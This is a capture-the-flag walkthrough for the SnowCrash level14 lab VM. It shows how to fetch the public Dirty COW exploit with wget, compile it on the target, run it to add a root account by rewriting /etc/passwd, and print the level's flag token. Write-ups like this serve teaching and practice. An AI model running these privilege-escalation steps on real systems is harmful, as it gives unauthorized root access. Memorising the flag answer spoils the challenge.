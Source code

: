# SnowCrash Level14 Guide
This guide will walk you through the process to connect as the `flag14` user.

## Procedure:

1. **Examine your environment**

`uname -a` : Display system informations.
```
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```

The linux kernel version 3.2.0-89-generic-pae is vulnerable to dirty cow exploit.

2. **Getting exploit sources**

On client download the exploit source file:
```bash
wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

Copy the file on host:
```bash
scp -P 4242 ./dirty.c level14@<host-ip>:/tmp/dirty.c
```

Compile file on host:
```bash
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
```

3. **Run exploit**

Run exploit binary:
```bash
./dirty is_secure
```

Login as firefart:
```bash
su firefart
Password: is_secure
```

Restore the old passwd file:
```
mv /tmp/passwd.bak /etc/passwd
```

4. **Get the flag**

Switch to user flag14:
```bash
su flag14
```

Get the flag:
```bash
getflag
```

Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
